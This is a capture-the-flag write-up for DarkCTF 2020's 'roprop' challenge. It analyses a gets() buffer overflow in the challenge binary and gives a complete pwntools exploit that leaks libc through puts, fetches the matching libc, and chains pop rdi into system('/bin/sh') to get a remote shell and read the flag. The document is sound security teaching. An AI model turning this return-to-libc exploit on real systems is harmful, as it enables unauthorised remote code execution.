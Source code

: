 # DarkCTF 2020

## pwn/roprop

> 171 solves / 313 points
>
> Author: gr4n173
>
> This is from the back Solar Designer times where you require rope to climb and get anything you want.
>
> `nc pwn.darkarmy.xyz 5002`
> 
> [roprop](roprop)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

`gets`.

> This is virtually the same as [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
undefined8 main(void)
{
  char local_58 [80];
  
  nvm_init();
  nvm_timeout();
  puts("Welcome to the Solar Designer World.\n");
  puts("He have got something for you since late 19\'s.\n");
  gets(local_58);
  return 0;
}
```

`gets` vulnerability.  Easy ROP since no canary or PIE.  To get to the return address send `0x35` bytes (gotta love how Ghidra tells you that, i.e. `local_35`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./roprop')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('roprop.darkarmy.xyz', 5002)
```

Boilerplate pwntools.  `context.binary` is important for ROP.  Also notice there's no `libc` set for `REMOTE` since we have to find it first.


### Leak libc

```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x58 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
```

Standard `puts` _putting_ itself out there.  With the `puts` location known we can find the version and base address of libc.  The last part of the payload jumps back to `vuln` for a second and final pass.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[0]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[0]['download_url']` needs to be changed if the downloaded libc does not work, just increment the `[0]` until you get the right one.


### Get a shell, get the flag

```python
payload  = 0x58 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)
p.interactive()
```

Pop a shell, get the flag.

> `p64(pop_rdi + 1)` fixes a stack [alignment issue](https://blog.binpang.me/2019/07/12/stack-alignment/), see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) for a lengthy example.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/darkctf2020/roprop/roprop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to roprop.darkarmy.xyz on port 5002: Done
[*] Loaded 14 cached gadgets for './roprop'
[*] puts: 0x7f17891cda30
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/darkctf2020/roprop/libc6_2.27-3ubuntu1.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f178914d000
[*] Switching to interactive mode
$ ls -l
total 36
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 bin
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 dev
-rwxr----- 1 0 1000   29 Sep 19 11:19 flag.txt
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib32
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib64
-rwxr-x--- 1 0 1000 8872 Sep 21 17:50 roprop
$ cat flag.txt
darkCTF{y0u_r0p_r0p_4nd_w0n}
```